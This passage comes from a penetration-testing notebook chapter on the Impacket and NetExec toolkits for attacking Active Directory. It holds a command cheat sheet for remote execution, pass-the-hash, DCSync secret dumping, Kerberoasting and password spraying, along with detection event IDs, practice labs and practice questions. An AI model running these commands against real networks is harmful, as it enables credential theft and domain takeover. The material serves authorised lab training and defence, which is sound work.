- **The Kerberos family pipes ccache files:** `getTGT` → `getST` (and S4U with `-impersonate`), `GetUserSPNs` (Kerberoast), `GetNPUsers` (AS-REP roast), `ticketer` (Golden/Silver), `raiseChild` (child→forest). Kerberos needs the **FQDN**, never the IP.
- **The engagement rhythm** (Part 12): `nxc` to find `(Pwn3d!)` and secrets → Impacket to execute, DCSync, and prove domain control — one standard-user credential to Domain Admin.
- **Defenders** detect via 7045/4697 (psexec), 4698 (atexec), WmiPrvSE-child (wmiexec), **4662 replication from non-DC** (DCSync), 4769 etype-0x17 bursts (Kerberoast), and the NetExec fan-out of logons. Prevention = LAPS, SMB/LDAP signing, admin tiering, replication-rights hygiene, gMSAs/AES.

## Cheat Sheet / Quick Reference

```bash
### --- IMPACKET: execution (need local admin on target) ---
psexec.py   CORP/adm:'Pw'@10.0.0.5           # service+binary, SYSTEM shell (LOUD, 7045)
smbexec.py  CORP/adm:'Pw'@10.0.0.5           # service cmd.exe, SYSTEM, no binary
wmiexec.py  CORP/adm:'Pw'@10.0.0.5           # WMI, runs as auth-user, quiet (no service)
atexec.py   CORP/adm:'Pw'@10.0.0.5 "cmd"     # scheduled task, SYSTEM (4698)
dcomexec.py -object MMC20 CORP/adm:'Pw'@10.0.0.5  # DCOM, mmc parent

### --- IMPACKET: credential passing ---
psexec.py  -hashes :NTHASH        CORP/adm@10.0.0.5     # Pass-the-Hash (leading colon!)
export KRB5CCNAME=t.ccache; wmiexec.py -k -no-pass CORP/adm@host.corp.local  # Pass-the-Ticket
getTGT.py  CORP/u -aesKey <hex> -dc-ip 10.0.0.10        # Pass-the-Key / OverPtH

### --- IMPACKET: secrets ---
secretsdump.py CORP/adm:'Pw'@10.0.0.5                   # SAM + LSA (local admin)
secretsdump.py -just-dc      CORP/da:'Pw'@dc01          # DCSync: NTDS + Kerberos keys
secretsdump.py -just-dc-user krbtgt CORP/da:'Pw'@dc01   # targeted DCSync (stealthier)

### --- IMPACKET: Kerberos ---
getTGT.py  CORP/u:'Pw' -dc-ip 10.0.0.10                 # TGT -> ccache
getST.py   -spn cifs/host -impersonate Administrator CORP/svc:'Pw'  # S4U delegation
GetUserSPNs.py -request CORP/u:'Pw' -dc-ip 10.0.0.10    # Kerberoast (-m 13100)
GetNPUsers.py  CORP/ -usersfile u.txt -no-pass -format hashcat  # AS-REP roast (-m 18200)

### --- IMPACKET: enum / files ---
lookupsid.py CORP/u:'Pw'@dc01                           # domain SID + RID cycle
samrdump.py  CORP/u:'Pw'@dc01                           # users/groups/pass-pol
rpcdump.py   @dc01 | grep -i efs                        # coercion surface
smbserver.py -smb2support share $(pwd)                  # rogue share / NTLM capture

### --- NETEXEC (nxc): sweep & enumerate ---
nxc smb 10.0.0.0/24 -u u -p 'Pw' -d CORP               # valid? (+)  admin? (Pwn3d!)
nxc smb 10.0.0.0/24 -u u -p 'Pw' --shares --loggedon-users
nxc smb dc01 -u u -p 'Pw' --pass-pol                   # CHECK before spraying!
nxc smb dc01 -u users.txt -p 'Pw' --continue-on-success  # spray
nxc smb 10.0.0.5 -u adm -H NTHASH --local-auth         # PtH local-admin reuse spray
nxc smb 10.0.0.5 -u adm -p 'Pw' --sam --lsa            # dump secrets
nxc smb dc01     -u da  -p 'Pw' --ntds                 # DCSync
nxc smb 10.0.0.5 -u adm -p 'Pw' -x 'whoami'            # exec (-X for PowerShell)
nxc smb 10.0.0.0/24 -u u -p 'Pw' -M spider_plus -o DOWNLOAD_FLAG=True
nxc ldap dc01 -u u -p 'Pw' -M bloodhound               # BloodHound over LDAP
export KRB5CCNAME=t.ccache; nxc smb host.corp.local --use-kcache   # Pass-the-Ticket
```

| Symbol / marker | Meaning |
|-----------------|---------|
| `nxc` `[+]` | Credential valid on host |
| `nxc` `(Pwn3d!)` | You are local admin on host |
| `signing:False` | SMB signing off → NTLM relay target |
| Impacket `-hashes :NT` | Pass-the-Hash (empty LM before the colon) |
| `KRB5CCNAME` | Env var pointing Impacket/nxc at a Kerberos ccache |
| `$DCC2$` | Cached domain cred (MSCACHEv2), hashcat `-m 2100` |
| `$krb5tgs$23$` / `$krb5asrep$23$` | Kerberoast (`-m 13100`) / AS-REP roast (`-m 18200`) |

## Practice Labs & Resources

- **GOAD — Game of Active Directory** (github.com/Orange-Cyberdefense/GOAD): the definitive self-hosted vulnerable forest; every Impacket/NetExec technique in this chapter is intended to work against it. Start here.
- **TryHackMe** — *"Attacktive Directory"* (Impacket `GetNPUsers`, `secretsdump`, `psexec` end-to-end), *"NetExec / CrackMapExec"* room, and the *"Holo"* / *"Wreath"* networks for lateral movement with these tools.
- **HackTheBox** — machines **Active**, **Forest**, **Sauna**, **Blackfield**, **Sizzle**, **Monteverde** all fall via the exact NetExec-enumerate → Impacket-execute/roast/DCSync rhythm; Pro Labs **Dante**, **Zephyr**, **Cerberus** for full-network practice.
- **PortSwigger Web Security Academy** is not relevant here (web-focused), but for the Kerberos theory underpinning Part 6, revisit **Chapters 4–6** of this notebook.
- **HackTheBox Academy** modules *"Password Attacks"*, *"Active Directory Enumeration & Attacks"*, and *"Using CrackMapExec/NetExec"* provide guided, graded reps.
- **Official docs** — NetExec wiki (netexec.wiki) and the Impacket examples README are the ground truth for flags; read them alongside the source when a command behaves unexpectedly.

**Practice questions:**

1. You get `(Pwn3d!)` on FILE01 but must stay quiet — the SOC alerts on Event ID 7045. Which two Impacket execution methods avoid creating a service, and what event/process artefact does each leave instead?
2. `secretsdump.py -just-dc` succeeds from a service account. Which single Windows event ID, and which specific control-access-right GUIDs within it, would the blue team use to detect this, and why is it high-fidelity?
3. You have `jsmith`'s NT hash but not the password. Write the exact `getTGT.py` command to obtain a TGT, and explain why doing so (OverPass-the-Hash) can be quieter than using the hash with `psexec.py -hashes` directly.
4. NetExec reports `signing:False` on three hosts. What attack does that enable, which Impacket tool performs it, and what is the single Group Policy setting that removes the exposure?
5. Design a spray with NetExec that will *not* lock out accounts in a domain with lockout threshold 5 / 30-minute window — list the flags you'd use and the reasoning for pacing.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/12-impacket-netexec-crackmapexec-and-the-ad-attacker-toolkit), with comments and the latest edits.*
